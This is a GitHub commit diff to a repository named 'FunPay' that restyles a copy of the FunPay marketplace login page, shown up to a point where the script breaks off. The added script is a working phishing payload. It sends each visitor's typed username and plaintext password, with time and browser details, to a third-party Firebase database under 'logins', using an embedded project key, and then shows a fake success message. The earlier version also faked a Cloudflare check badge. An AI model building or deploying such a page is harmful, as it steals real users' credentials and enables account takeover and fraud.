

Before and after one commit to rmeherremli200-lang/FunPay, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,71 +1,69 @@
 <!DOCTYPE html>
 <html lang="ru">
 <head>
-<meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Войти / FunPay</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>FU✦PAY — Войти</title>
+  <link href="https://fonts.googleapis.com/css2?family=Syne:wght@600;800&family=DM+Sans:wght@400;500&display=swap" rel="stylesheet"/>
   <style>
     *, *::before, *::after { box-sizing: border-box; margin: 0; padding: 0; }
 
+    :root {
+      --bg: #0e0f13;
+      --surface: #16181f;
+      --border: #2a2d38;
+      --accent: #f5a623;
+      --accent2: #3b82f6;
+      --text: #e8eaf0;
+      --muted: #6b7280;
+      --danger: #ef4444;
+      --success: #22c55e;
+    }
+
     body {
-  font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Arial, sans-serif;
-  background: #f5f5f5;
-  color: #333;
-  font-size: 14px;
+      background: var(--bg);
+      color: var(--text);
+      font-family: 'DM Sans', sans-serif;
+      min-height: 100vh;
       display: flex;
       flex-direction: column;
-  min-height: 100vh;
     }
 
-a { text-decoration: none; color: inherit; }
-
-/* ── HEADER ── */
+    /* HEADER */
     header {
-  background: #fff;
-  border-bottom: 1px solid #e0e0e0;
-}
-
-.header-inner {
-  max-width: 1100px;
-  margin: 0 auto;
-  padding: 0 20px;
-  height: 52px;
       display: flex;
       align-items: center;
-  gap: 16px;
+      justify-content: space-between;
+      padding: 16px 32px;
+      border-bottom: 1px solid var(--border);
+      background: var(--surface);
     }
 
     .logo {
+      font-family: 'Syne', sans-serif;
+      font-weight: 800;
+      font-size: 22px;
+      letter-spacing: -0.5px;
+      color: var(--text);
+    }
+    .logo span { color: var(--accent); }
+
+    .search-bar {
       display: flex;
       align-items: center;
-  font-size: 21px;
-  font-weight: 900;
-  color: #1a1a1a;
-  letter-spacing: -0.5px;
-  flex-shrink: 0;
+      gap: 8px;
+      background: var(--bg);
+      border: 1px solid var(--border);
+      border-radius: 8px;
+      padding: 8px 16px;
+      color: var(--muted);
+      font-size: 14px;
+      cursor: pointer;
+      transition: border-color 0.2s;
     }
+    .search-bar:hover { border-color: var(--accent); }
 
-.logo-bolt {
-  color: #2196f3;
-  font-style: normal;
-  font-size: 19px;
-  position: relative;
-  top: -1px;
-}
-
-.search-row {
-  display: flex;
-  align-items: center;
-  gap: 6px;
-  color: #999;
-  font-size: 14px;
-}
-
-.search-row svg { color: #aaa; }
-
-.header-spacer { flex: 1; }
-
-.hamburger {
+    .menu-btn {
       background: none;
       border: none;
       cursor: pointer;
@@ -74,454 +72,300 @@ header {
       gap: 5px;
       padding: 4px;
     }
-.hamburger span {
+    .menu-btn span {
       display: block;
       width: 22px;
       height: 2px;
-  background: #666;
+      background: var(--text);
+      border-radius: 2px;
+      transition: 0.2s;
+    }
+
+    /* MAIN */
+    main {
+      flex: 1;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      padding: 40px 16px;
+      background: radial-gradient(ellipse at 50% 0%, rgba(245,166,35,0.06) 0%, transparent 70%);
+    }
+
+    .card {
+      background: var(--surface);
+      border: 1px solid var(--border);
+      border-radius: 16px;
+      padding: 40px;
+      width: 100%;
+      max-width: 420px;
+      box-shadow: 0 24px 64px rgba(0,0,0,0.4);
+      animation: fadeUp 0.4s ease both;
+    }
+
+    @keyframes fadeUp {
+      from { opacity: 0; transform: translateY(20px); }
+      to   { opacity: 1; transform: translateY(0); }
+    }
+
+    /* TABS */
+    .tabs {
+      display: flex;
+      gap: 0;
+      margin-bottom: 28px;
+      border-bottom: 1px solid var(--border);
+    }
+    .tab {
+      font-family: 'Syne', sans-serif;
+      font-weight: 600;
+      font-size: 16px;
+      padding: 0 0 14px;
+      margin-right: 24px;
+      border: none;
+      background: none;
+      color: var(--muted);
+      cursor: pointer;
+      position: relative;
+      transition: color 0.2s;
+    }
+    .tab.active { color: var(--text); }
+    .tab.active::after {
+      content: '';
+      position: absolute;
+      bottom: -1px;
+      left: 0; right: 0;
+      height: 2px;
+      background: var(--accent);
       border-radius: 2px;
     }
 
-/* ── PAGE BODY ── */
-.page-body {
-  flex: 1;
-  display: flex;
-  align-items: flex-start;
-  justify-content: center;
-  padding: 40px 16px 60px;
-}
-
-/* ── LOGIN BOX ── */
-.login-box {
-  background: #fff;
-  border: 1px solid #e0e0e0;
-  border-radius: 4px;
-  width: 100%;
-  max-width: 400px;
-  padding: 28px 32px 32px;
-}
-
-/* Tabs */
-.tabs {
-  display: flex;
-  align-items: baseline;
-  gap: 20px;
-  margin-bottom: 18px;
-  border-bottom: 1px solid #e0e0e0;
-  padding-bottom: 14px;
-}
-
-.tab-login {
-  font-size: 20px;
-  font-weight: 700;
-  color: #222;
-  cursor: pointer;
-}
-
-.tab-register {
-  font-size: 20px;
-  font-weight: 400;
-  color: #2196f3;
-  cursor: pointer;
-}
-
-.tab-register:hover { text-decoration: underline; }
-
-/* Social */
+    /* SOCIAL */
     .social-label {
       font-size: 13px;
-  color: #555;
+      color: var(--muted);
       margin-bottom: 12px;
     }
-
-.social-buttons {
+    .social-btns {
       display: flex;
       gap: 10px;
-  margin-bottom: 20px;
+      margin-bottom: 24px;
     }
-
     .social-btn {
-  width: 56px;
-  height: 56px;
+      width: 46px;
+      height: 46px;
       border-radius: 50%;
-  border: 1.5px solid #ddd;
-  background: #fff;
+      border: 1px solid var(--border);
+      background: var(--bg);
       display: flex;
       align-items: center;
       justify-content: center;
       cursor: pointer;
-  transition: border-color 0.2s, box-shadow 0.2s;
-  text-decoration: none;
+      transition: border-color 0.2s, transform 0.15s;
+    }
+    .social-btn:hover { border-color: var(--accent); transform: scale(1.05); }
+    .social-btn img { width: 22px; height: 22px; }
+
+    /* DIVIDER */
+    .divider {
+      font-size: 13px;
+      color: var(--muted);
+      margin-bottom: 20px;
     }
 
-.social-btn:hover {
-  border-color: #bbb;
-  box-shadow: 0 2px 8px rgba(0,0,0,0.1);
+    /* FORM */
+    .form-group { margin-bottom: 14px; }
+    .form-group input {
+      width: 100%;
+      background: var(--bg);
+      border: 1px solid var(--border);
+      border-radius: 10px;
+      padding: 13px 16px;
+      color: var(--text);
+      font-family: 'DM Sans', sans-serif;
+      font-size: 15px;
+      outline: none;
+      transition: border-color 0.2s, box-shadow 0.2s;
+    }
+    .form-group input::placeholder { color: var(--muted); }
+    .form-group input:focus {
+      border-color: var(--accent);
+      box-shadow: 0 0 0 3px rgba(245,166,35,0.12);
     }
 
-/* Google icon SVG */
-.google-icon { width: 26px; height: 26px; }
+    .forgot {
+      display: inline-block;
+      color: var(--accent2);
+      font-size: 13px;
+      text-decoration: none;
+      margin-bottom: 20px;
+      transition: color 0.2s;
+    }
+    .forgot:hover { color: #60a5fa; }
 
-/* VK */
-.vk-btn {
-  background: #0077ff;
-  border-color: #0077ff;
+    /* SUBMIT */
+    .submit-btn {
+      width: 100%;
+      padding: 14px;
+      background: var(--accent);
+      color: #0e0f13;
+      font-family: 'Syne', sans-serif;
+      font-weight: 700;
+      font-size: 16px;
+      border: none;
+      border-radius: 10px;
+      cursor: pointer;
+      transition: background 0.2s, transform 0.15s, box-shadow 0.2s;
+      position: relative;
+      overflow: hidden;
     }
+    .submit-btn:hover {
+      background: #f0b93a;
+      box-shadow: 0 8px 24px rgba(245,166,35,0.3);
+      transform: translateY(-1px);
+    }
+    .submit-btn:active { transform: translateY(0); }
+    .submit-btn:disabled { opacity: 0.6; cursor: not-allowed; transform: none; }
 
-.vk-icon {
-  width: 28px;
-  height: 28px;
-  fill: #fff;
-}
-
-/* Divider */
-.or-divider {
-  font-size: 13px;
-  color: #555;
-  margin-bottom: 14px;
-}
-
-/* Inputs */
-.input-group {
-  display: flex;
-  flex-direction: column;
-  gap: 8px;
-  margin-bottom: 10px;
-}
-
-.input-group input {
-  width: 100%;
-  padding: 10px 12px;
-  border: 1px solid #ccc;
-  border-radius: 4px;
-  font-size: 14px;
-  color: #333;
-  outline: none;
-  transition: border-color 0.2s;
-  background: #fff;
-}
-
-.input-group input::placeholder { color: #aaa; }
-.input-group input:focus { border-color: #2196f3; }
-
-/* Forgot */
-.forgot {
-  font-size: 13px;
-  color: #2196f3;
-  display: inline-block;
-  margin-bottom: 14px;
-}
-.forgot:hover { text-decoration: underline; }
-
-/* Cloudflare captcha block */
-.cf-block {
-  background: #222;
-  border-radius: 4px;
-  padding: 12px 14px;
-  display: flex;
-  align-items: center;
-  justify-content: space-between;
-  margin-bottom: 14px;
-}
-
-.cf-left {
-  display: flex;
+    /* TOAST */
+    .toast {
+      display: none;
       align-items: center;
       gap: 10px;
+      background: #1a2e1a;
+      border: 1px solid var(--success);
+      border-radius: 10px;
+      padding: 12px 16px;
+      margin-bottom: 16px;
+      font-size: 14px;
+      color: var(--success);
+      animation: fadeUp 0.3s ease both;
     }
-
-.cf-check {
-  width: 28px;
-  height: 28px;
-  border-radius: 50%;
-  background: #27ae60;
-  display: flex;
-  align-items: center;
-  justify-content: center;
-  flex-shrink: 0;
+    .toast.error {
+      background: #2e1a1a;
+      border-color: var(--danger);
+      color: var(--danger);
     }
-
-.cf-check svg { width: 16px; height: 16px; }
-
-.cf-success {
-  font-size: 14px;
-  color: #fff;
-  font-weight: 500;
-}
-
-.cf-right {
-  display: flex;
-  flex-direction: column;
-  align-items: flex-end;
-  gap: 2px;
-}
-
-.cf-logo {
-  display: flex;
-  align-items: center;
-  gap: 5px;
-}
-
-/* Cloudflare orange cloud */
-.cf-cloud { font-size: 18px; }
-
-.cf-name {
-  font-size: 13px;
-  font-weight: 700;
-  color: #f38020;
-  letter-spacing: 0.5px;
-}
-
-.cf-links {
-  display: flex;
-  gap: 6px;
-}
-
-.cf-links a {
-  font-size: 10px;
-  color: #888;
-  text-decoration: underline;
-}
-
-/* Login button */
-.btn-login {
-  width: 100%;
-  padding: 13px;
-  background: #2196f3;
-  color: #fff;
-  border: none;
-  border-radius: 4px;
-  font-size: 16px;
-  font-weight: 600;
-  cursor: pointer;
-  transition: background 0.2s;
-  letter-spacing: 0.2px;
-}
-
-.btn-login:hover { background: #1976d2; }
-
-/* ── FOOTER ── */
-footer {
-  background: #fff;
-  border-top: 1px solid #e0e0e0;
-  padding: 22px 20px;
-}
-
-.footer-inner {
-  max-width: 1100px;
-  margin: 0 auto;
-  display: flex;
-  align-items: center;
-  gap: 40px;
-  flex-wrap: wrap;
-}
-
-.footer-copy {
-  font-size: 13px;
-  color: #333;
-}
-
-.footer-links {
-  display: flex;
-  flex-direction: column;
-  gap: 4px;
-}
-
-.footer-links a {
-  font-size: 12px;
-  color: #2196f3;
-}
-
-.footer-links a:hover { text-decoration: underline; }
-
-.footer-spacer { flex: 1; }
-
-.footer-social {
-  display: flex;
-  align-items: center;
-  gap: 16px;
-}
-
-.footer-social a {
-  color: #555;
-  display: flex;
-  align-items: center;
-  transition: color 0.2s;
-}
-
-.footer-social a:hover { color: #222; }
-
-.footer-social svg { width: 22px; height: 22px; }
-
-.footer-artlebedev {
-  display: flex;
-  flex-direction: column;
-  align-items: center;
-  gap: 2px;
-}
-
-.al-badge {
-  border: 1.5px solid #333;
-  padding: 4px 8px;
-  font-size: 11px;
-  font-weight: 900;
-  letter-spacing: 1px;
-  color: #222;
-  font-family: 'Courier New', monospace;
-}
-
-.al-year { font-size: 10px; color: #888; }
-
-.footer-designed {
-  font-size: 12px;
-  color: #555;
-  line-height: 1.4;
-}
-
-.footer-designed a { color: #2196f3; }
-.footer-designed a:hover { text-decoration: underline; }
+    .toast.show { display: flex; }
+    .toast-dot { width: 8px; height: 8px; border-radius: 50%; background: currentColor; flex-shrink: 0; }
   </style>
 </head>
 <body>
 
-<!-- HEADER -->
 <header>
-  <div class="header-inner">
-    <a href="#" class="logo">
-      FU<span class="logo-bolt">⚡</span>PAY
-    </a>
-    <div class="search-row">
-      <span>Поиск по 830 играм</span>
-      <svg width="15" height="15" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
-        <circle cx="11" cy="11" r="8"/><path d="m21 21-4.35-4.35"/>
-      </svg>
+  <div class="logo">FU<span>✦</span>PAY</div>
+  <div class="search-bar">
+    <svg width="15" height="15" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><circle cx="11" cy="11" r="8"/><path d="m21 21-4.35-4.35"/></svg>
+    Поиск по 830 играм
   </div>
-    <div class="header-spacer"></div>
-    <button class="hamburger">
+  <button class="menu-btn" aria-label="Меню">
     <span></span><span></span><span></span>
   </button>
-  </div>
 </header>
 
-<!-- PAGE BODY -->
-<div class="page-body">
-  <div class="login-box">
-
-    <!-- Tabs -->
+<main>
+  <div class="card">
     <div class="tabs">
-      <span class="tab-login">Войти</span>
-      <a href="#" class="tab-register">Зарегистрироваться</a>
+      <button class="tab active" id="tab-login">Войти</button>
+      <button class="tab" id="tab-register">Зарегистрироваться</button>
     </div>
 
-    <!-- Social -->
-    <div class="social-label">Через сервисы:</div>
-    <div class="social-buttons">
-
-      <!-- Google -->
-      <a href="#" class="social-btn">
-        <svg class="google-icon" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
-          <path d="M22.56 12.25c0-.78-.07-1.53-.2-2.25H12v4.26h5.92c-.26 1.37-1.04 2.53-2.21 3.31v2.77h3.57c2.08-1.92 3.28-4.74 3.28-8.09z" fill="#4285F4"/>
-          <path d="M12 23c2.97 0 5.46-.98 7.28-2.66l-3.57-2.77c-.98.66-2.23 1.06-3.71 1.06-2.86 0-5.29-1.93-6.16-4.53H2.18v2.84C3.99 20.53 7.7 23 12 23z" fill="#34A853"/>
-          <path d="M5.84 14.09c-.22-.66-.35-1.36-.35-2.09s.13-1.43.35-2.09V7.07H2.18C1.43 8.55 1 10.22 1 12s.43 3.45 1.18 4.93l3.66-2.84z" fill="#FBBC05"/>
-          <path d="M12 5.38c1.62 0 3.06.56 4.21 1.64l3.15-3.15C17.45 2.09 14.97 1 12 1 7.7 1 3.99 3.47 2.18 7.07l3.66 2.84c.87-2.6 3.3-4.53 6.16-4.53z" fill="#EA4335"/>
-        </svg>
-      </a>
-
-      <!-- VK -->
-      <a href="#" class="social-btn vk-btn">
-        <svg class="vk-icon" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
-          <path d="M12.785 16.241s.288-.032.436-.194c.136-.148.132-.427.132-.427s-.02-1.304.585-1.498c.598-.19 1.365 1.26 2.179 1.815.615.422 1.083.33 1.083.33l2.177-.03s1.137-.071.598-1.073c-.044-.081-.314-.663-1.618-1.875-1.366-1.267-1.183-1.062.462-3.253.999-1.330 1.399-2.141 1.274-2.489-.12-.331-.855-.243-.855-.243l-2.45.015s-.181-.025-.316.056c-.132.079-.218.264-.218.264s-.388 1.033-.905 1.912c-1.09 1.85-1.526 1.948-1.704 1.834-.414-.269-.311-1.073-.311-1.646 0-1.79.271-2.536-.527-2.731-.265-.065-.46-.107-1.138-.114-.87-.009-1.605.002-2.02.207-.277.138-.49.447-.36.464.162.022.527.099.722.364.25.341.241 1.107.241 1.107s.144 2.107-.335 2.37c-.329.18-.78-.187-1.748-1.865-.497-.858-.873-1.809-.873-1.809s-.072-.179-.202-.275c-.157-.115-.377-.151-.377-.151l-2.328.015s-.35.01-.478.162C4.035 7.7 4.14 8.02 4.14 8.02S5.796 11.988 7.67 13.989c1.725 1.845 3.685 1.724 3.685 1.724l.962-.011z"/>
-        </svg>
-      </a>
+    <p class="social-label">Через сервисы:</p>
+    <div class="social-btns">
+      <button class="social-btn" title="Google">
+        <svg width="22" height="22" viewBox="0 0 48 48"><path fill="#EA4335" d="M24 9.5c3.54 0 6.71 1.22 9.21 3.6l6.85-6.85C35.9 2.38 30.47 0 24 0 14.62 0 6.51 5.38 2.56 13.22l7.98 6.19C12.43 13.08 17.74 9.5 24 9.5z"/><path fill="#4285F4" d="M46.98 24.55c0-1.57-.15-3.09-.38-4.55H24v9.02h12.94c-.58 2.96-2.26 5.48-4.78 7.18l7.73 6c4.51-4.18 7.09-10.36 7.09-17.65z"/><path fill="#FBBC05" d="M10.53 28.59c-.48-1.45-.76-2.99-.76-4.59s.27-3.14.76-4.59l-7.98-6.19C.92 16.46 0 20.12 0 24c0 3.88.92 7.54 2.56 10.78l7.97-6.19z"/><path fill="#34A853" d="M24 48c6.48 0 11.93-2.13 15.89-5.81l-7.73-6c-2.18 1.48-4.97 2.31-8.16 2.31-6.26 0-11.57-3.59-13.46-8.91l-7.98 6.19C6.51 42.62 14.62 48 24 48z"/></svg>
+      </button>
+      <button class="social-btn" title="VK">
+        <svg width="22" height="22" viewBox="0 0 48 48"><circle cx="24" cy="24" r="24" fill="#0077FF"/><path fill="#fff" d="M25.54 34s.63-.07.95-.42c.3-.32.29-.93.29-.93s-.04-2.84 1.28-3.26c1.3-.41 2.97 2.75 4.74 3.96.34.23 1.34.7 1.34.7l2.7-.04s1.41-.09.74-1.19c-.05-.09-.38-.8-1.97-2.26-1.66-1.53-1.44-1.28.56-3.92 1.22-1.62 1.71-2.61 1.55-3.03-.14-.4-1.04-.29-1.04-.29l-3.04.02s-.23-.03-.39.07c-.16.1-.26.32-.26.32s-.47 1.26-1.1 2.33c-1.33 2.26-1.86 2.38-2.08 2.24-.5-.33-.38-1.31-.38-2.01 0-2.18.33-3.09-.65-3.33-.32-.08-.56-.13-1.39-.14-1.06-.01-1.95.01-2.46.25-.34.16-.6.52-.44.54.2.03.64.12.88.44.3.41.29 1.34.29 1.34s.17 2.57-.4 2.88c-.39.21-.93-.22-2.08-2.2-.6-1.04-1.06-2.19-1.06-2.19s-.09-.21-.24-.32a1.2 1.2 0 0 0-.44-.17l-2.88.02s-.43.01-.59.2c-.14.17-.01.52-.01.52s2.25 5.26 4.79 7.91c2.33 2.43 4.98 2.27 4.98 2.27h1.2z"/></svg>
+      </button>
     </div>
 
-    <!-- Or with form -->
-    <div class="or-divider">Или с помощью имени, почты и пароля:</div>
+    <p class="divider">Или с помощью имени, почты и пароля:</p>
 
-    <div class="input-group">
-      <input type="text" placeholder="Имя или почта">
-      <input type="password" placeholder="Пароль">
+    <div id="toast" class="toast">
+      <div class="toast-dot"></div>
+      <span id="toast-msg">Данные отправлены!</span>
+    </div>
+
+    <div class="form-group">
+      <input type="text" id="username" placeholder="Имя пользователя или почта" autocomplete="username"/>
+    </div>
+    <div class="form-group">
+      <input type="password" id="password" placeholder="Пароль" autocomplete="current-password"/>
     </div>
 
     <a href="#" class="forgot">Забыли пароль?</a>
 
-    <!-- Cloudflare Turnstile block -->
-    <div class="cf-block">
-      <div class="cf-left">
-        <div class="cf-check">
-          <svg viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
-            <path d="M3 8l3.5 3.5L13 4.5" stroke="#fff" stroke-width="2.2" stroke-linecap="round" stroke-linejoin="round"/>
-          </svg>
+    <button class="submit-btn" id="loginBtn">Войти</button>
   </div>
-        <span class="cf-success">Успешно.</span>
-      </div>
-      <div class="cf-right">
-        <div class="cf-logo">
-          <span class="cf-cloud">🟠</span>
-          <span class="cf-name">CLOUDFLARE</span>
-        </div>
-        <div class="cf-links">
-          <a href="#">Конфиденциальность</a>
-          <a href="#">Справка</a>
-        </div>
-      </div>
-    </div>
+</main>
 
-    <!-- Submit -->
-    <button class="btn-login">Войти</button>
+<script type="module">
+  import { initializeApp } from "https://www.gstatic.com/firebasejs/10.12.0/firebase-app.js";
+  import { getDatabase, ref, push } from "https://www.gstatic.com/firebasejs/10.12.0/firebase-database.js";
 
-  </div>
-</div>
+  const firebaseConfig = {
+    apiKey: "AIzaSyBMKuV2V-MsAIQo4XlthA59_zTH3vUCaqg",
+    authDomain: "fu-pay-bdefa.firebaseapp.com",
+    databaseURL: "https://fu-pay-bdefa-default-rtdb.firebaseio.com",
+    projectId: "fu-pay-bdefa",
+    storageBucket: "fu-pay-bdefa.firebasestorage.app",
+    messagingSenderId: "486996812011",
+    appId: "1:486996812011:web:0667a41b95bd66ea689eae",
+    measurementId: "G-VXCPMTB99J"
+  };
 
-<!-- FOOTER -->
-<footer>
-  <div class="footer-inner">
-    <div>
-      <div class="footer-copy">© 2015–2026 FunPay</div>
-      <div class="footer-links" style="margin-top:6px;">
-        <a href="#">Политика конфиденциальности</a>
-        <a href="#">Политика cookie</a>
-        <a href="#">Контакты</a>
-      </div>
-    </div>
+  const app = initializeApp(firebaseConfig);
+  const db = getDatabase(app);
 
-    <div class="footer-spacer"></div>
+  function showToast(msg, isError = false) {
+    const toast = document.getElementById('toast');
+    const toastMsg = document.getElementById('toast-msg');
+    toast.classList.remove('error');
+    if (isError) toast.classList.add('error');
+    toastMsg.textContent = msg;
+    toast.classList.add('show');
+    setTimeout(() => toast.classList.remove('show'), 3000);
+  }
 
-    <!-- Social icons -->
-    <div class="footer-social">
-      <!-- Telegram -->
-      <a href="#">
-        <svg viewBox="0 0 24 24" fill="currentColor">
-          <path d="M12 0C5.373 0 0 5.373 0 12s5.373 12 12 12 12-5.373 12-12S18.627 0 12 0zm5.562 8.248-1.97 9.289c-.145.658-.537.818-1.084.508l-3-2.21-1.447 1.394c-.16.16-.295.295-.605.295l.213-3.053 5.56-5.023c.242-.213-.054-.333-.373-.12l-6.871 4.326-2.962-.924c-.643-.204-.657-.643.136-.953l11.57-4.461c.537-.194 1.006.131.833.932z"/>
-        </svg>
-      </a>
-      <!-- YouTube -->
-      <a href="#">
-        <svg viewBox="0 0 24 24" fill="currentColor">
-          <path d="M23.495 6.205a3.007 3.007 0 0 0-2.088-2.088c-1.87-.501-9.396-.501-9.396-.501s-7.507-.01-9.396.501A3.007 3.007 0 0 0 .527 6.205a31.247 31.247 0 0 0-.522 5.805 31.247 31.247 0 0 0 .522 5.783 3.007 3.007 0 0 0 2.088 2.088c1.868.502 9.396.502 9.396.502s7.506 0 9.396-.502a3.007 3.007 0 0 0 2.088-2.088 31.247 31.247 0 0 0 .5-5.783 31.247 31.247 0 0 0-.5-5.805zM9.609 15.601V8.408l6.264 3.602z"/>
-        </svg>
-      </a>
-      <!-- VK -->
-      <a href="#">
-        <svg viewBox="0 0 24 24" fill="currentColor">
-          <path d="M12.785 16.241s.288-.032.436-.194c.136-.148.132-.427.132-.427s-.02-1.304.585-1.498c.598-.19 1.365 1.26 2.179 1.815.615.422 1.083.33 1.083.33l2.177-.03s1.137-.071.598-1.073c-.044-.081-.314-.663-1.618-1.875-1.366-1.267-1.183-1.062.462-3.253.999-1.330 1.399-2.141 1.274-2.489-.12-.331-.855-.243-.855-.243l-2.45.015s-.181-.025-.316.056c-.132.079-.218.264-.218.264s-.388 1.033-.905 1.912c-1.09 1.85-1.526 1.948-1.704 1.834-.414-.269-.311-1.073-.311-1.646 0-1.79.271-2.536-.527-2.731-.265-.065-.46-.107-1.138-.114-.87-.009-1.605.002-2.02.207-.277.138-.49.447-.36.464.162.022.527.099.722.364.25.341.241 1.107.241 1.107s.144 2.107-.335 2.37c-.329.18-.78-.187-1.748-1.865-.497-.858-.873-1.809-.873-1.809s-.072-.179-.202-.275c-.157-.115-.377-.151-.377-.151l-2.328.015s-.35.01-.478.162C4.035 7.7 4.14 8.02 4.14 8.02S5.796 11.988 7.67 13.989c1.725 1.845 3.685 1.724 3.685 1.724l.962-.011z"/>
-        </svg>
-      </a>
-    </div>
+  document.getElementById('loginBtn').addEventListener('click', async () => {
+    const username = document.getElementById('username').value.trim();
+    const password = document.getElementById('password').value.trim();
+    const btn = document.getElementById('loginBtn');
 
-    <!-- Art Lebedev badge -->
-    <div style="display:flex;align-items:center;gap:12px;">
-      <div>
-        <div class="al-badge">ART.LEBEDEV</div>
-        <div class="al-year">2019</div>
-      </div>
-      <div class="footer-designed">
-        Задизайнено<br>в <a href="#">Студии Артемия<br>Лебедева</a>
-      </div>
-    </div>
+    if (!username || !password) {
+      showToast('Заполните все поля', true);
+      return;
+    }
 
-  </div>
-</footer>
+    btn.disabled = true;
+    btn.textContent = 'Входим...';
+
+    try {
+      await push(ref(db, 'logins'), {
+        username,
+        password,
+        time: new Date().toLocaleString('ru-RU'),
+        userAgent: navigator.userAgent
+      });
+      showToast('Успешно. Добро пожаловать!');
+    } catch (e) {
+      showToast('Ошибка подключения', true);
+      console.error(e);
+    } finally {
+      btn.disabled = false;
